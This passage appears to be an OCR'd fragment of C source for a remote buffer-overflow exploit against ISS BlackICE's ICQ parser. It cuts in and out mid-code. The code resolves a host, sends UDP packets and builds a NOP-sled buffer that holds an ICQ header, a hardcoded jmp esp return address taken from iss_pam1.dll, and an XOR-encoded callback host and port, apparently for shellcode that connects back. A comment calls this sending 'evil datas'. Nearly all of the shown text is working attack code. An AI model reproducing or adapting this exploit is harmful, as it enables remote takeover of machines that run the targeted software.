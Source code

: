     return sock;
    }

    /* resolve listen host
    */
    unsigned int resolve (char *name)
    {
    struct hostent *he;
    unsigned int ip;

    if ((ip = inet_addr (name)) == (-1)) {
    if ((he = gethostbyname (name)) ==0 )
    return 0;
    memcpy (&ip, he->h_addr, 4);
    }
    return ip;
    }


    /*
    * send datas
    */
    int udp_send (int sock, char *buffer, int buff_len)
    {
    int ret;

    ret = sendto (sock, buffer, buff_len, 0, (struct sockaddr *)&addr,
    sizeof (struct sockaddr_in));
    if (ret <= NULL) {
    perror ("sendto failed\n");
    return -1;
    }

    fprintf (stderr, "# %d bytes send\n", ret);

    return ret;
    }

    /*
    * send evil datas, fuck ISS's blackice.
    */
    int do_sendudp_data (char *hostName)
    {
    unsigned int cb;
    int sock;
    char expbuf[1200];

    memset (expbuf, 0x90, sizeof (expbuf));
    memcpy (expbuf, icq_header, sizeof (icq_header) - 1);

    /*
    * jmp esp opcodes from iss_pam1.dll
    */
    *(unsigned int *)&expbuf[637] = 0x5e077663;

    if (!(cb = resolve (bindHost))) {
    printf ("Unknown listen host\n");
    return -1;
    }
    port = htons (port);
    port ^= 0x9393;
    cb ^= 0x93939393;
